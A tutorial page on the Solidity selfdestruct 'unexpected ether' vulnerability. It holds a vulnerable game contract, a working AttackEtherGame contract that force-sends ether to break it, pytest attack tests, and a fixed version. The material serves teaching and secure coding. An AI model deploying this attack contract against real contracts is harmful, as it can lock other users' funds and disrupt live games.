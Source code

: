 ```yaml
---
sidebar_position: 4
tags: [selfdestruct, solidity, attack]
---
```


# Self destruct

### Description

Although the blockchain is considered an immutable structure, Solidity language provides functionality that removes the smart contract state and code from the blockchain. This function is `selfdestruct`, and it could be used to remove the smart contract state and send all  Ether, stored at the address associated with the call, to a designated wallet or contract. This behavior presents the vulnerability, also called `unexpected ether`.

The following smart contract implementation presents the simple game using concurrency logic. Any user can deposit one ether to the contract until the `balance` reaches `5`. Whoever deposited the last ether amounted to the target value will be able to claim the reward. The issue is on line 11, where the requirement uses `address(this).balance` to check the contract balance:

```solidity title=/contracts/self_destruct/EtherGame.sol sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/contracts/self_destruct/EtherGame.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract EtherGame {
    uint256 public targetAmount = 5 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        // highlight-next-line
        uint256 balance = address(this).balance;
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }

    function balanceOf() public view returns (uint256) {
        return address(this).balance;
    }
}
```

Here comes the `AttackEtherGame` smart contract that would attempt to stop the game by sending `unexpected ether` to the contract game using the `selfdestruct` function:

```solidity title=/contracts/self_destruct/AttackEtherGame.sol sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/contracts/self_destruct/AttackEtherGame.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

interface IEtherGame {}

contract AttackEtherGame {
    IEtherGame etherGame;

    constructor(address _etherGameAddress) {
        etherGame = IEtherGame(_etherGameAddress);
    }

    function attack() public payable {
        address payable addr = payable(address(etherGame));
        // highlight-next-line
        selfdestruct(addr);
    }

    function deposit() public payable {}

    function balanceOf() public view returns (uint256) {
        return address(this).balance;
    }
}

```

### How to test

Let's write a unit test that executes the EtherGame attack and verify the game is distorted:

```python sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/tests/self_destruct/test_self_destruct.py title=/tests/self_destruct/test_self_destruct.py
import pytest
from brownie import exceptions
from scripts.self_destruct.deploy_and_attack import (
    deploy_attack_ether_game,
    deploy_ether_game,
    deploy_ether_game_fixed,
)
from scripts.utils import get_attacker_account, get_default_account, get_user_account
from web3 import Web3

def test_ether_game_successful_attack():
    # 1. Deploy EtherGame contract
    ether_game = deploy_ether_game()
    # 2. Play the game
    ether_game_deposit_tx = ether_game.deposit(
        {"from": get_user_account(), "value": Web3.toWei(1, "ether")},
    )
    ether_game_deposit_tx.wait(1)
    # 3. Deploy AttackEtherGame contract
    attack_ether_game = deploy_attack_ether_game(ether_game.address)
    # 4. Deposit some funds to the AttackEtherGame contract, so that they could be sent to the EtherGame
    tx = attack_ether_game.deposit(
        {"from": get_attacker_account(), "value": Web3.toWei(5, "ether")}
    )
    tx.wait(1)

    assert ether_game.balanceOf() / 10**18 == 1

    # 5. Call `attack` function on the AttackEtherGame contract to break the EtherGame balance
    attack_tx = attack_ether_game.attack(
        {"from": get_attacker_account()},
    )
    attack_tx.wait(1)

    assert ether_game.balanceOf() / 10**18 == 6

    # 6. EtherGame is no longer accepts deposits
    with pytest.raises(exceptions.VirtualMachineError):
        ether_game_deposit_tx2 = ether_game.deposit(
            {"from": get_user_account(), "value": Web3.toWei(1, "ether")},
        )
        ether_game_deposit_tx2.wait(1)

```

### How to fix

To fix this issue, it is recommended to avoid reliance on the `this.balance` value within the smart contract logic or guards. Instead, you should use a separate variable `balance` to account for the actual balance every time users call the `deposit` function. Consider the following fix L12-13:

```solidity title=/contracts/self_destruct/EtherGameFixed.sol sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/contracts/self_destruct/EtherGameFixed.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract EtherGameFixed {
    uint256 public targetAmount = 5 ether;
    address public winner;
    uint256 public balance;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        // highlight-next-line
        balance += msg.value;
        // highlight-next-line
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }

    function balanceOf() public view returns (uint256) {
        return balance;
    }
}

```

### Demo

The following unit test demonstrates that `EtherGameFixed` smart contract is no longer breakable:

```python sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/tests/self_destruct/test_self_destruct.py title=/tests/self_destruct/test_self_destruct.py
...

def test_ether_game_fixed_failed_attack():
    # 1. Deploy EtherGameFixed contract
    ether_game_fixed = deploy_ether_game_fixed()
    # 2. Play the game
    ether_game_deposit_tx = ether_game_fixed.deposit(
        {"from": get_user_account(), "value": Web3.toWei(1, "ether")},
    )
    ether_game_deposit_tx.wait(1)
    # 3. Deploy AttackEtherGame contract
    attack_ether_game = deploy_attack_ether_game(ether_game_fixed.address)
    # 4. Deposit some funds to the AttackEtherGame contract, so that they could be sent to the EtherGame
    tx = attack_ether_game.deposit(
        {"from": get_attacker_account(), "value": Web3.toWei(5, "ether")}
    )
    tx.wait(1)
    # 5. Call `attack` function on the AttackEtherGame contract to destort the EtherGame balance
    attack_tx = attack_ether_game.attack(
        {"from": get_attacker_account()},
    )
    attack_tx.wait(1)

    assert ether_game_fixed.balanceOf() / 10**18 == 1

    ether_game_deposit_tx2 = ether_game_fixed.deposit(
        {"from": get_user_account(), "value": Web3.toWei(1, "ether")},
    )
    ether_game_deposit_tx2.wait(1)

    assert ether_game_fixed.balanceOf() / 10**18 == 2

```

**Thank you for reading and good luck with building secure blockchain!**